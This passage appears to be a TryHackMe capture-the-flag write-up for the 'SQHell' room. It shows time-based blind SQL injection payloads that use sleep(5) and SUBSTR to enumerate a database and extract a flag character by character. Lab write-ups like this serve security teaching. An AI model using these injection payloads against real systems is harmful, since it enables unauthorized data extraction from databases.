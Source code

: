 ![image8](../resources/5b17fa54594344ffb600c49cf4830817.png)

- We can see the delay:

![image9](../resources/1c58b60f3be74c7d9ead0cdcb14a011f.png)

- To build on this query we can do:

```bash
' AND (SELECT sleep(5) from information_schema.tables where table_schema = "sqhell_1") and '1'='1

```

![image10](../resources/fc310998aabc4c44bcc01a5121e5dd6a.png)

**<u>What we know:</u>**
We can see that this db name is sqhell_5. And since I enumerated flag 5 first, in sqhell_5 db.

We can assume that this flag is in the table "flag" as well

The flags start with THM

The length of the flags seem to be 42 characters

- We can test if this is the case:

```bash
' AND (SELECT sleep(5) FROM flag where SUBSTR(flag,1,1) = 'T') and '1'='1

```

![image11](../resources/c112f277fabd4bd686e1f6fa9b111730.png)
